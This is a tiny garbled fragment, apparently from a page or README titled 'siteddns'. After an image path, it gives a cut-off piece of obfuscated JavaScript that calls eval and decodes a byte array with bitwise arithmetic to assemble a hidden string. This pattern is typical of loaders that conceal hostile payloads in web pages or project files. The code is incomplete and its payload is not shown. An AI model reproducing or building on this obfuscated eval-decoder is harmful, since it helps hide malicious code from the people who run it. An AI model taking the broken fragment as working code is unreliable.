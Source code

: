  # siteddns
=2);";eval(bd);bd=2;while(true){if(bd>47)break;fc[bd]=(~((((fc[bd]+fc[0])&0xff)-138)&0xff))&0xff;bd++;}ad="";for(bd=1;bd
